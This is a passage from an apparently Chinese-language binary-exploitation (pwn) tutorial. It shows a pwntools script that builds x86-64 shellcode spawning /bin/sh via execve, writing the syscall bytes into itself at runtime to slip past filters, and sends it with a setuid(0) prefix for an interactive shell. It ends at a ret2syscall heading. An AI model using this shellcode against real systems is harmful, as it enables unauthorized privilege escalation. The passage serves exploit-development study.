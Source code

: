 ```python

""")

# 构造 shellcode
shellcode = asm("""
    xor rax, rax                ;Clear rax
    mov al, 59                  ;Syscall number for execve
    lea rdi, [rip+binsh_str]    ;Address of "/bin/sh" into rdi
    xor rsi, rsi                ;rsi = NULL (argv)
    xor rdx, rdx                ;rdx = NULL (envp)

    ;动态写入 syscall 指令
    lea rcx, [rip+syscall_instr] ;指向即将形成 syscall 的位置
    mov byte ptr [rcx], 0x0f     ;写入前一半 0x0f
    mov byte ptr [rcx+1], 0x05   ;写入后一半 0x05

syscall_instr:
    nop                         ;此处将变为 syscall
    jmp syscall_instr           ;跳回 syscall

binsh_str:
    .ascii "/bin/sh"           ;Shell command string
    .byte 0x00
""")

# shellcode = asm(shellcraft.sh())
print(shellcode)


payload = setuid0 + shellcode
# payload = asm(shellcraft.i386.linux.setuid(0) + shellcraft.amd64.sh())

io.sendline(payload)

io.interactive()
```



### 后续操作和思想与ret2text相同，利用函数调用栈的相关知识攻击即可。

------



## ==*`ret2syscall`==

### x86(32位)与x86-64(64位)的函数调用栈：

